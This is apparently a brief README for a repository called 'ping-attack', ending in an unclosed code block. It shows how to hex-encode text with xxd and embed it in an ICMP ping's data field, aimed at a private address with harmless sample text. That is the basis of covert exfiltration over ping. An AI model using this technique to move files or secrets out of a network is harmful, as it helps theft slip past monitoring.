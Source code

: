 # ping-attack

Basic Commands:

```shell
#!/bin/bash
#This will take the text "test" and convert to hex
echo "test" | xxd -p
#746573740a
#This will ping the ip address and add the hex of "test" into the data field
ping -c 1 192.168.1.5 -p 746573740a
